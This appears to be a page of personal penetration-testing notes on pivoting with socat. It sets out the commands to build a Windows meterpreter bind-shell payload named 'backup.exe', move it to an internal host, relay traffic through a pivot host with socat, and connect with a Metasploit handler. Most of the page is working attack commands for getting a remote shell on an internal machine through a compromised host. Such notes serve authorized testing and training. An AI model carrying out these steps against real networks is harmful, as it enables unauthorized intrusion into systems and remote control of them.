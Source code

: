 -- -
A bidirectional relay tool. Creates a pipe socket between 2 independent network channels w/o needing to use ssh tunneling. You need to run the relay from the pivot host, so you **might** need to download socat, [[Dark Arts I/File Transfer/~Home|file transfer]] it to the pivot host and run it there. 
### High-level overview
The workflow here is that you will create a bind shell on the target internal host. The pivot host will then redirect a stage request from your attackbox to the port where the bind shell is establishing the bind shell:![[55.webp]]
### Create payload
first, create a bind shell payload for the target internal host, in this case a windows internal host:
```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=8443 -f exe -o backup.exe
```
[[Dark Arts I/File Transfer/~Home|File transfer]] payload to pivot host, then to target internal host. Then run the payload on internal host.
### Setup Relay
On the pivot host, start the socat relay. Note that you **might** need to [[Dark Arts I/File Transfer/~Home|file transfer]] socat to the pivot host to use it.
```bash
socat TCP4-LISTEN:8080,fork TCP4:<target ip>:8443
```
### Setup Bind Listener
```bash
msfconsole
use multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST <pivot ip>
set lport <8080>
run
```